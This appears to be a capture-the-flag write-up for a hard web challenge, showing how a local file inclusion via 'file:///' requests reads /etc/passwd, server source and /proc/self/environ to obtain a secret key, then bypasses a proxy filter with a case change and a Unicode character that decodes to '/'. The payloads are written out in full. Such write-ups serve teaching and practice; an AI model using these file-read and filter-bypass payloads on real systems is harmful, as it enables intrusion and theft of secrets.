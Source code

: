 # api (270pts, 24 solved) Hard [Web]
                
## First look
When we first open the site, the is no interaction with the application, we can't do anything. Having a dirsearch finds us `/proxy`, I tried to do something with it, but no success

## Solving
Using my scanner, we find that we can trigger `LFI` with `GET file:///../../../../../../etc/passwd`. Using this technique, we can retrieve the server source by: `GET file:///../server.js`. Here we see some interesting functions:
```js
//server.js

//parse requests
var doRequest = require('./routes/doRequest'); 
//helpers
global.functions = require('./resources/functions');
...
//hostname helper
global.hostname = os.hostname();
//todo process.env.SECRET_KEY 
global.secretkey = 'FCD5B14866746FDF0722AD96728CA9B58FE53389E09B97CC462E2CABE02AA19C';
...
var urlParts = urlPath.split('/');
console.log(request.url, ip); 
if(urlParts[0]) {
    switch(urlParts[0]) {
        case 'getconfig':
            functions.getConfigFromVault(request, response);
        break;
        case 'proxy':
            functions.getProxy(request, response);
        break;
        default:
            new doRequest(request, response);
            break;
    }
} else {
    new doRequest(request, response);
}

//functions.js
...
getProxy: function(request, response) {
    this.getRequestFields(request, global.config, function(fields) {

        if(!fields || !fields.url) {
            response.end('Invalid fields.');
        }


        if(fields.url.indexOf('get_secret') !== -1 || fields.url.indexOf('/') !== -1) {
            response.end("Invalid request");
            return;
        }
        
        fields.url = Buffer.from(fields.url.toLowerCase(), "latin1").toString();

        var options = {
            host: global.config.PROXY,
            port: 2222,
            path: fields.url
        };

        http.get(options, function(rresponse) {
            var body = '';
            rresponse.on('data', function(chunk) {
            body += chunk;
            });
            rresponse.on('end', function() {
            response.end(body);
            });
        }).on('error', function(e) {
            response.end("Got error: " + e.message);
        }); 
    });
},
...
getConfigFromVault: function(req, res) {
    var options = {
        host: global.config.PROXY,
        port: 2222,
        path: '/get_secret/' + global.secretkey
    };

    http.get(options, function(response) {
        var body = '';
        response.on('data', function(chunk) {
        body += chunk;
        });
        response.on('end', function() {
        res.end(body);
        });
    }).on('error', function(e) {
        res.end("Got error: " + e.message);
    }); 
},
...

//doRequest is just a simple nodejs static file server
```


Our goal is to get `/get_secret/` from the local server. However, when we go to `/get_secret/`, we don't have access, because of: `{"failed":true,"flag":"","message":"Invalid secret key. Flag hidden."}`. So our `global.secretkey` is probably wrong. Which means it's probably in: `//todo process.env.SECRET_KEY`, which we can get using the `LFI` trick: `GET file:///../../../../../../proc/self/environ`, which is indeed where we find: `SECRET_KEY=f0af17449a83681de22db7ce16672f16f37131bec0022371d4ace5d1854301e0`. However, we need to hit `/get_secret/` and we can't use `/getconfig`, because it doesn't have a variable key.  
So we'll check our other endpoint `/proxy`:
```js
if(fields.url.indexOf('get_secret') !== -1 || fields.url.indexOf('/') !== -1) {
    response.end("Invalid request");
    return;
}

fields.url = Buffer.from(fields.url.toLowerCase(), "latin1").toString();
```
The first check (`fields.url.indexOf('get_secret') !== -1`) can easily be bypassed by using `Get_secret`, since it's lowercased at the end.  
The second check (`fields.url.indexOf('/') !== -1`) is a bit more tricky. But at the end, it not only lowedcases the url, but also decodes it as `latin1`. So maybe there is a character, when decoded as `latin1` is `/`, we can quickly bruteforce this:
```js
let i = 0;

while(true) {
    var char = String.fromCharCode(i);
    var decodedChar = Buffer.from(char.toLowerCase(), "latin1").toString();

    if (decodedChar == "/" && char != "/") {
        console.log(char);
        break;
    }
    i++;
}
```
This find the character: `Į` so chaining our first trick with this one gets us the final URL: `/proxy?url=ĮGet_secretĮf0af17449a83681de22db7ce16672f16f37131bec0022371d4ace5d1854301e0`.
Visiting this gets us the flag: `DCTF{f21030488de73ca25f1446d7f92865d6439b6e6c7f832dfe9c1c7a2b7e45966f}`